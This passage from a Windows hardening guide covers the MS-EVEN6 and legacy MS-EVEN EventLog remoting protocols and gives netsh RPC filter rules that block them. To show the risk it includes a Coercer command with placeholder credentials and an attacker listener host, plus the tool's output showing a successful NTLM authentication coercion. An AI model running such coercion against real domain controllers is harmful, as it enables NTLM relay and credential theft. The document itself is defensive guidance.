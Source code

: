 ```shell
wevtutil.exe /r:dc01 qe Security /c:1 /f:text
```

Malicious actors might use this protocol to clear security event logs remotely and thus cover their tracks.
The following sequence of `netsh.exe` commands will block MS-EVEN6 connections over named pipes,
while still allowing the TCP/IP traffic used by legitimate tools:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=dedffabf-db89-4177-be77-1954aa2c0b95
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=f6beaff7-1e19-4fbb-9f8f-b89e2018337c
add filter
```

#### \[MS-EVEN\]: EventLog Remoting Protocol

The [\[MS-EVEN\]: EventLog Remoting Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)
with UUID [82273FDC-E32A-18C3-3F78-827929DC23EA](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/648145da-250e-4c1f-b8e4-8044c1bd4a20)
is an older version of the [MS-EVEN6](#ms-even6-eventlog-remoting-protocol-version-60) protocol described above.

The protocol is only exposed over the `\PIPE\eventlog` named pipe and might be abused
by malicious actors to initiate NTLM relay attacks:

```shell
coercer coerce --username john --password 'Pa$$w0rd' --domain 'contoso.com' --target-ip 'dc01.contoso.com' --listener-ip hacker-pc --always-continue --filter-protocol-name MS-EVEN --filter-transport msrpc
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01.contoso.com
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.213.0.100\BvcavuA5\aa')
[+] All done! Bye Bye!
```

The following sequence of `netsh.exe` commands will block the legacy MS-EVEN protocol traffic entirely:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=f7f68868-5f50-4cda-a18c-6a7a549652e7
add condition field=if_uuid matchtype=equal data=82273FDC-E32A-18C3-3F78-827929DC23EA
add filter
```


[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html
[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template